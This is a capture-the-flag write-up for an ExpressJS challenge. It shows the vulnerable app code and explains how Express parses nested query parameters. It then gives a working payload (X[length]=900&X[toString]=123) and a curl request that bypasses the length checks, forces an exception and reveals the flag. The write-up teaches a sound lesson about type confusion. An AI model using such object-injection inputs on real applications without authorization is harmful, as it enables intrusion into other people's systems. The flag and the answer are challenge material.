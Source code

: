 # Gynvael Coldwind ExpressJS challenge 2

Source: https://twitter.com/gynvael/status/1257784735025291265

## Challenge

We are provided with this code on the web page:
```javascript
const express = require('express')
const fs = require('fs')

const PORT = 5002
const FLAG = process.env.FLAG || "???"
const SOURCE = fs.readFileSync('app.js')

const app = express()

app.get('/', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')
  res.write("Level 2\n\n")

  if (!('X' in req.query)) {
    res.end(SOURCE)
    return
  }

  if (req.query.X.length > 800) {
    const s = JSON.stringify(req.query.X)
    if (s.length > 100) {
      res.end("Go away.")
      return
    }

    try {
      const k = '<' + req.query.X + '>'
      res.end("Close, but no cigar.")
    } catch {
      res.end(FLAG)
    }

  } else {
    res.end("No way.")
    return
  }
})

app.listen(PORT, () => {
  console.log(`Challenge listening at port ${PORT}`)
}) 
```

## Analysis

There is only one endpoint and we can specify the `X` query parameter. There are several conditions we need to trigger to get the flag:
- `req.query.X.length > 800`
- `s <= 100`
- exception trigger on `const k = '<' + req.query.X + '>'`

From the available [documentation](https://expressjs.com/en/api.html#req.query), notice that you can specify properties for a query param:

```
...
// GET /shoes?order=desc&shoe[color]=blue&shoe[type]=converse
console.dir(req.query.order)
// => 'desc'

console.dir(req.query.shoe.color)
// => 'blue'
...
```

This means that we can easily specify `X[length]` in the URL which will satisfy the first two conditions, the only thing that is left is the exception trigger.

Looking further in the documentation the following is noted:
> For example, req.query.foo.toString() may fail in multiple ways, for example foo may not be there or may not be a string, and toString may not be a function and instead a string or other user-input.

Well, sure, we can easily specify `X[toString]` in the URL and break the whole thing! ... Oh, wait ...

## Solution

Specify both `X[length]` and `X[toString]` in the URL so that they conform to challenge constraints. Here is one URL example on how to get the flag:

`http://challenges.gynvael.stream:5002/?X[length]=900&X[toString]=123`

This works because the `length` property is specified as integer and is greater than 800. At the same time, `length` property string length is less or equals than 100. The `toString` parameter will break the `const k = '<' + req.query.X + '>'` line because `toString` is the function called on object `X` under the hood. You can observe this behaviour in your browser console:

```javascript
>> X = {'a':1,'b':2}
Object { a: 1, b: 2 }
>> X.toString()
"[object Object]"
>> 'a'+X+'b'
"a[object Object]b"
```

Example in practice:
```
$ curl "http://challenges.gynvael.stream:5002/?X[length]=900&X[toString]=123"
Level 2

CTF{WaaayBeyondPHPLikeWTF}
```
